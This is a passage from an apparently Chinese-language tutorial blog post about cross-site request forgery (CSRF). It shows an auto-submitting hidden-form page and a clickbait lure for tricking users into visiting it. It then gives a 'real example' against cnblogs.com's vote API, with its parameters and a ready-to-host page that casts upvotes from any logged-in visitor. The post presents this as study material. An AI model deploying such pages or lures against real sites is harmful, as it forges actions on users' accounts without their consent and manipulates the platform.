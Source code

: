 ```
<html>
<head>
    <meta charset="utf-8">
    <title></title>
</head>
<body>
<form id="form" method="POST" action="http://example.com/like">
    <input type="hidden" name="user_id" value="1234">
</form>
<script>
    var form = document.getElementById('form')
    form.submit()
</script>
</body>
</html>
```

诱导点击是一个 CSRF 攻击的常用手段之一。于是他在文章写下：

```
深夜福利，有图有真相，请戳 http://laosiji.com。
```

没过多久，他的 ID 就被管理员封了。

## 真实示例

学以致用一直是我学习的常用方法之一。今天就拿博客园来做实验。

注意，以下示例仅供学习参考！

浏览器打开开发者工具，点击这篇文章下面的推荐按钮（请点击后再往下阅读），便可以看到博客园推荐 API 的地址是：

```
POST http://www.cnblogs.com/mvc/vote/VoteBlogPost.aspx
```

参数 | 说明
--- | ---
blogApp | 用户名（页面 URL 中可以看到）
postId | 文章 ID（页面 URL 中可以看到）
voteType | Digg（赞、顶、推荐的意思）
isAbandoned | false（不懂）

然后写个静态页面，放在你的服务器上：

```
<html>
<head>
    <meta charset="utf-8">
    <title>深夜福利，有图有真相</title>
</head>
<body>
<form id="form" method="POST" action="http://www.cnblogs.com/mvc/vote/VoteBlogPost.aspx">
    <input type="hidden" name="blogApp" value="smallchen">
    <input type="hidden" name="postId" value="7424994">
    <input type="hidden" name="voteType" value="Digg">
    <input type="hidden" name="isAbandoned" value="false">
</form>
<script>
    var form = document.getElementById('form')
    form.submit()
</script>
</body>
</html>
```
